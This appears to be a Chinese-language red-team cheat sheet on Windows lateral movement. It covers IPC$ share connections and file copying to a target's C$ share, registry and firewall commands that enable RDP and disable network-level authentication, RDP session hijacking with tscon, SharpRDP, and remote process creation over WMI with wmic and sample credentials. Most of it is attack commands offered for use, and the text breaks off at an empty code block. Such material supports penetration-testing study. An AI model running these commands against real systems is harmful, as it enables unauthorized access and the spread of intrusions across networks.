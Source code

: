 ```
net share ipc$                        # 开启ipc$共享
net share ipc$ /del                   # 删除ipc$共享
net share admin$ /del                 # 删除admin$共享
net share c$ /del                     # 删除C盘共享
net use * /del                        # 删除所有连接

# IPC$ 连接建立之后的操作
dir \\ip\c$                              # 列出目标文件目录
copy C:\\Users\Administrator\Desktop\whatever.exe \\ip\c$\aaa # 将文件复制到目标C盘aaa目录下
type \\ip\c$\1.txt                       # 查看目标C盘下1.txt文件内容
net use h: \\ip\c$                       # 磁盘映射，将目标的 C 盘映射到本地的 H 盘
net use h: /del                          # 删除磁盘映射
```

#### 远程桌面协议横向
##### 利用远程桌面协议（RDP）
  ① 查询注册表确定是否主机开启了远程桌面
```
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections 
ps: 若字段值为0，则表示已启动RDP；若为1，则表示禁用RDP
```
  ② 开启远程桌面
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f 
```
  ③ 关闭“仅允许运行使用网络级别身份验证的远程桌面的计算机连接”（鉴权） 
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0  
```
  ④ 设置防火墙策略放行3389端口 
```
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

##### RDP Hijack
  Windows系统下，tscon可被用来切换远程桌面的会话。正常情况下，切换会话时需要提供登录密码，但通过特殊的利用方法能够绕过验证，不输入密码实现未授权登录。
  可以通过`query user`来列出所有登录的用户列表，得到id
  在SYSTEM权限下，使用`tscon <ID>`来切换用户不需要验证密码。

##### [sharp RDP](https://github.com/0xthirteen/SharpRDP)
  sharp rdp可以通过远程桌面协议在远程主机上执行系统命令，且不需要GUI客户端。
  工具需要远程主机开启远程桌面功能，且防火墙放行3389端口

##### WMI横向
  WMI（Windows管理规范）是一项核心的Windows管理技术。用户可以通过WMI管理本地和远程主机。
  Windows为传输WMI数据提供了两个可用的协议：分布式组件对象模型（DCOM）和Windows远程管理（WinRM）使得WMI对象的查询、事件注册、WMI类方法的执行和类的创建等操作都能远程运行。
  **目前两种常见的利用方法：**
1. 通过调用WMI的类方法进行远程调用，如Win32_Process类中的Create方法可以在远程主机上创建进程，Win32_Product类的Install方法可以在远程主机上安装恶意的MSI
2. 远程部署WMI事件订阅，在特定事件发生时触发
  **利用WMI进行横向移动需要具备以下条件：**
1. 远程主机的WMI服务为开启状态（默认开启）
2. 远程主机防火墙放行135端口，这是WMI管理的默认端口
  **利用步骤：**
1. 通过WMI查询远程主机上运行的进程信息
```
wmic /node:192.168.1.131 /user:Administrator /password:123456@ process list brief # /node 执行远程主机的地址
```
2. 创建远程进程
通过调用Win32_Process.Create方法在远程主机上创建进程，启动CMD来执行命令
由于WMIC在执行命令时没有回显，因此可以将执行结果写入文件，然后通过别的方式读取文件
```
```